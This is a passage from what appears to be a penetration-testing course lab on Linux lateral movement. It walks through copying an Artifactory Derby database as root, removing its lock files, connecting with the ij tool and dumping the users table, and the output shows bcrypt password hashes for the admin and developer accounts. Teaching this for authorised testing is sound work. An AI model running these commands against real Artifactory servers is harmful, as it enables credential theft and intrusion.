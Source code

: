 In the controller VM, the database containing the user information is located at /opt/jfrog/artifactory/var/data/access/derby.

Let's create a new directory and copy the database to a temporary location.

We'll create a temporary folder in /tmp for the database. We then copy the database from the original location and remove any lock files that exist from the database being in use when it was copied.

```
offsec@controller:~$ mkdir /tmp/hackeddb

offsec@controller:~$ sudo cp -r /opt/jfrog/artifactory/var/data/access/derby /tmp/hackeddb

offsec@controller:~$ sudo chmod 755 /tmp/hackeddb/derby

offsec@controller:~$ sudo rm /tmp/hackeddb/derby/*.lck
```

> Listing 53 - Copying the database

Since Artifactory is using Derby as its default database, we'll need Apache's Derby tools to be able to connect to it. More specifically, the _ij_ command line tool, which allows the user to access a Derby database and perform queries against it. The Derby tools are already installed on the controller at /opt/derby, but they can also be downloaded[2](https://portal.offsec.com/courses/pen-300-9502/learning/linux-lateral-movement-14688/linux-lateral-movement-14967#fn-local_id_568-2) if necessary.

Fortunately for us, the default database does not require a username and password and relies on file permissions to protect it. Because we have _root_ privileges, we can connect without problems.

Artifactory contains its own version of Java and we can use it to run the Derby connection utilities and connect to our database.

```
offsec@controller:~$ sudo /opt/jfrog/artifactory/app/third-party/java/bin/java -jar /opt/derby/db-derby-10.15.1.3-bin/lib/derbyrun.jar ij
ij version 10.15
ij> connect 'jdbc:derby:/tmp/hackeddb/derby'; 
ij>
```

> Listing 54 - Running the Derby connection utility

The first part of the command calls the embedded version of Java included as part of Artifactory. We're specifying that we want to run the derbyrun.jar JAR file. The ij parameter indicates that we want to use Apache's _ij_[3](https://portal.offsec.com/courses/pen-300-9502/learning/linux-lateral-movement-14688/linux-lateral-movement-14967#fn-local_id_568-3) tool to access the database.

The utility presents us with a simple prompt. It uses SQL syntax commands to manipulate the database. We will run the following command to list the users in the system.

```
ij> select * from access_users;
USER_ID |USERNAME |PASSWORD |ALLOWED_IPS |CREATED |MODIFIED |FIRSTNAME |LASTNAME |EMAIL |REALM |STATUS |LAST_LOGIN_TIME |LAST_LOGIN_IP |FAILED_ATTEMPTS |STATUS_LAST_MODIFIED| PASSWORD_LAST_MODIF&
...
1 |admin |bcrypt$$2a$08$3gNs9Gm4wqY5ic/2/kFUn.S/zYffSCMaGpshXj/f/X0EMK.ErHdp2 |127.0.0.1 |1591715727140 |1591715811546 |NULL |NULL |NULL |internal |enabled |1596125074382 |192.168.118.5 |0 |1591715811545 |1591715811545       
...    
3 |developer |bcrypt$$2a$08$f8KU00P7kdOfTYFUmes1/eoBs4E1GTqg4URs1rEceQv1V8vHs0OVm |* |1591715957889 |1591715957889 |NULL |NULL |developer@corp.local |internal |enabled |0 |NULL |0 |1591715957889 |1591715957889       

3 rows selected
ij> 
```
